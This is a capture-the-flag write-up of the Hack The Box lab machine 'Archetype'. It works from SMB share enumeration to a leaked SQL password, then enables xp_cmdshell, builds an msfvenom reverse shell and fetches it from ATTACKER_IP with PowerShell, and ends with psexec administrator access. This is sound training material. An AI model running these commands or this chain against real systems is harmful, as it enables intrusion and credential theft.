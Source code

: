 ```yaml
---
title: "[Starting Point] Tier 2: Archetype"
tags:
  - Very Easy
  - Windows
  - Samba
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |  Very Easy |  |  10.129.82.74 |  | [Tier 2: Archetype](https://app.hackthebox.com/starting-point) |  |

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic nmap scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```

![screenshot1](../assets/images/archetype/screenshot1.png)

From the results, we can see that 4 ports are open: **135 (RPC)**, **139 (SMB)**, **445 (SMB)** and **1433 (MSSQL server)**

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```

![screenshot2](../assets/images/archetype/screenshot2.png)

There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```

![screenshot3](../assets/images/archetype/screenshot3.png)

There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**

![screenshot4](../assets/images/archetype/screenshot4.png)

*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages)*

We can identify a password in the config file:

> M3g4c0rp123

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

mssqlclient.py

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful [information](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15):

---

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

---

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket. *(Steps on how to do so can be found from [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))*

From the config file earlier, we got the following set of credentials: 

> sql_svc : M3g4c0rp123

Also, from our nmap scan, we also know that the domain name is:

> ARCHETYPE

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```

![screenshot5](../assets/images/archetype/screenshot5.png)

Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```

![screenshot6](../assets/images/archetype/screenshot6.png)

Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```

![screenshot7](../assets/images/archetype/screenshot7.png)

Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to `C:\Users\sql_svc\Downloads` as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.


With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:

![screenshot8](../assets/images/archetype/screenshot8.png)

Now that we're in, let's download WinPEAS onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

Looking through the results of the WinPEAS scan, I noticed an interesting file:

![screenshot9](../assets/images/archetype/screenshot9.png)

Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:

![screenshot10](../assets/images/archetype/screenshot10.png)

This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is:

> MEGACORP_4dm1n!!

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials:

```
python3 psexec.py administrator@10.129.82.74
```

![screenshot11](../assets/images/archetype/screenshot11.png)

And just like that, we're now in the machine as the administrator!

We can grab the **user flag** from the desktop of the sql_svc user:

![screenshot12](../assets/images/archetype/screenshot12.png)

---

### [ Submit root flag ]

The **root flag** can be found in the desktop of the Administrator user:

![screenshot13](../assets/images/archetype/screenshot13.png)
